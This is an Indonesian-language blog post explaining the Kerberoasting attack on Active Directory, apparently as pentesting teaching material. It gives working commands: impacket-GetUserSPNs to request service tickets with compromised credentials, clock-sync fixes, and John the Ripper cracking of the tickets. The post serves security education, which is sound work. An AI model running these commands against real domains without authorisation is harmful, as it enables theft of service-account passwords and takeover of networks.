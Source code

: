 ```yaml
---
layout: post
title: "Kerberoasting Attack (Active Directory)"
date: 2024-01-07 07:00:00 +0700
categories: "Active-Directory-Pentesting"
---
```


Kerberoasting adalah salah satu serangan yang mengeksploitasi kerentanan dalam sistem otentikasi Kerberos di Active Directory. Dalam serangan ini, penyerang akan melakukan percobaan untuk mendapatkan tiket layanan (TGS) pada sebuah layanan tertentu yang dijalankan oleh akun layanan (Service Account), seperti database server (mssql) dan lainnya. Jika berhasil mendapatkannya, penyerang akan mencoba untuk membongkar password yang terkandung di dalam tiket tersebut untuk mendapatkan akses ke akun layanan (si pemilik tiket).

**Alur Kerberoasting:**

1. Attacker mengekstrak tiket layanan atau biasa disebut TGS (Ticket Granting Services) dari Kerberos yang bertindak sebagai distributor kunci atau Key Distribution Center (KDC).
2. Ekstraksi TGS dapat dilakukan menggunakan User yang sudah compromised. Biasanya User tersebut sudah memiliki akses untuk mengakses SPN (Service Principal Names).
3. Pada dasarnya TGS itu terenkripsi dengan password milik Service Account (yang akan di-crack nantinya) dan Service Account biasanya memiliki akses khusus ke layanan tertentu (misal: mssql).
4. Ketika Attacker sudah berhasil mendapatkan TGS, kemudian Attacker akan melakukan cracking untuk mendapatkan password (plain-text) milik Service Account yang terkandung di dalam TGS-nya. Hal ini dilakukan dengan menggunakan metode seperti Brute Force secara offline.
5. Jika password yang terkandung pada TGS berhasil di-crack, maka Attacker dapat login menggunakan Credential milik Service Account atau akun si pemilik tiket tersebut.

**Authentication Required! Because this is Post-Compromised Attack!**

Serangan Kerberoasting dapat dilakukan ketika Attacker sudah memiliki User yang berhasil di-takeover, karena untuk mengekstrak TGS dan SPN itu perlu menggunakan `username` dan `password`.

<br/>

# Proof of Concept

Required Tools.

```
sudo apt install impacket-scripts -y
```

<br/>

## Extract TGS and Service Principal Names (SPN) Through Compromised User 

Command
```sh
impacket-GetUserSPNs <domain>/<username>:<password> -request -dc-ip <ip domain controller>
```

![Impacket-GetSPNs TGS](https://github.com/xchopath/www.novr.one/assets/44427665/2ae43848-74da-4a58-b7e6-40d15e37d238)


**Catatan:**

Jika mengalami Error `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` maka kita hanya perlu untuk sinkronisasi waktu dan tanggal pada Host yang kita gunakan dengan Server Active Directory.

Get AD Timestamp via LDAP.
```sh
ldapsearch -LLL -x -H ldap://<ip domain controller> -b '' -s base '(objectclass=*)' | grep currentTime
```

Synchronize the datetime.
```sh
sudo timedatectl set-ntp false
sudo timedatectl set-time "<YYYY-MM-DD HH:MM:SS>"
```

<br/>

## Crack the TGS (Kerberoasting!)

Command
```sh
john --format=krb5tgs --wordlist=<wordlist> <tgs file>
```

![Kerberoasting with john 1](https://github.com/xchopath/www.novr.one/assets/44427665/4f57812d-f2f2-4347-a1d7-8953ee106f99)
![Kerberoasting with john 2](https://github.com/xchopath/www.novr.one/assets/44427665/7fac6097-a141-4f53-ac99-afa03dc1798c)
